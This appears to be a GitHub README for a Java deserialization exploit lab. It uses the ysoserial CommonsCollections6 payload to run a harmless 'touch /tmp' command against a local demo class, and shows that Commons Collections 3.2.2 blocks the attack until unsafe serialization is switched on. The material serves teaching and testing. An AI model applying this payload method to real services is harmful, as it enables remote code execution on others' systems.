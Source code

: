 # java-tests

<!-- TOC -->

-   [java-tests](#java-tests)
    -   [Deserialization Exploit](#deserialization-exploit)
        -   [Create payload](#create-payload)
        -   [Get Commons Collections](#get-commons-collections)
        -   [Abuse deserialization](#abuse-deserialization)

<!-- /TOC -->

## Deserialization Exploit

Successful Deserialization exploit using the ysoserial CommonsCollection6 payload...

### Create payload

```bash
/app# payload="CommonsCollections6"
/app# filename="data/${payload}.bin"
/app# command="touch /tmp/$payload"
/app# java -jar ysoserial.jar $payload "$command"> "$filename"
```

### Get Commons Collections

-   Download Commons Collections 3.S from the Apache Commons Collections [Download Page]](https://commons.apache.org/proper/commons-collections/download_collections.cgi)
-   Copy main jar file commons-collections-3.2.2.jar to local dir

### Abuse deserialization

```bash
/ap# export CLASSPATH=.:commons-collections-3.2.2.jar

# WITHOUT enableUnsafeSerialization=true

/app# java DeserializeDemo data/CommonsCollections6.bin
Deserializing data/CommonsCollections6.bin
Exception in thread "main" java.lang.UnsupportedOperationException: Serialization support for org.apache.commons.collections.functors.InvokerTransformer is disabled for security reasons. To enable it set system property 'org.apache.commons.collections.enableUnsafeSerialization' to 'true', but you must ensure that your application does not de-serialize objects from untrusted sources.
        at org.apache.commons.collections.functors.FunctorUtils.checkUnsafeSerialization(FunctorUtils.java:183)
        at org.apache.commons.collections.functors.InvokerTransformer.readObject(InvokerTransformer.java:164)
[...]

# WITH enableUnsafeSerialization=true

root@dfe5efe5da84:/app# java -Dorg.apache.commons.collections.enableUnsafeSerialization=true DeserializeDemo data/CommonsCollections6.bin
Deserializing data/CommonsCollections6.bin
Exception in thread "main" java.lang.ClassCastException: java.util.HashSet cannot be cast to Employee
        at DeserializeDemo.main(DeserializeDemo.java:11)


/app# ls /tmp
CommonsCollections6
```
